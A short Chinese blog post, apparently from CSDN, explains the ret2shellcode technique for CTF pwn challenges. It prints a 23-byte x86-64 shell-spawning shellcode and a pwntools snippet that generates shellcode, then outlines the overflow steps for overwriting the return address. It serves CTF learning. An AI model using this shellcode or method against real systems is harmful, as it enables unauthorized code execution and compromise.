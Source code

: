 # PWN-ret2shellcode原理

我们之前做过很简单的pwn题目

buuctf-rip这种 是在程序中存在shellcode直接返回地址改为这个shellcode的地址即可

但是如果程序里面没有呢

这种类型就是ret2shellcode



## 常见的shellcode

```cobol
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

这个shellcode只有23字节 是可以在能输入字节有限的地方进行使用

如果输入的字节可以存储特别大的话 我们可以使用pwntools的函数生成

```cobol
from pwn import *
context.arch='amd64'   #64位需要使用这个  32不用加
shellcode=asm(shellcraft.sh())
```

这是我理解的retshellcode的栈中的图

## 1.写入垃圾字符覆盖输入函数的变量和ebp



<img src="https://i-blog.csdnimg.cn/blog_migrate/4bb0283dbea8210c361224d0980a7eaa.png" alt="" style="max-height:782px; box-sizing:content-box;" />


## 2.写入shellcode的地址 把返回地址覆盖掉 实现返回到shellcode的地址中



<img src="https://i-blog.csdnimg.cn/blog_migrate/2a16a06cc3a6f8cac203bc727957c6fe.png" alt="" style="max-height:690px; box-sizing:content-box;" />


## 3.写入shellcode



<img src="https://i-blog.csdnimg.cn/blog_migrate/0e99b9337132f545432890f9a6278abe.png" alt="" style="max-height:700px; box-sizing:content-box;" />


这篇只是最简单的自我认识原理

例题

 [CTFHUB-PWN-ret2shellcode_双层小牛堡的博客-CSDN博客](https://blog.csdn.net/m0_64180167/article/details/130181350?spm=1001.2014.3001.5501)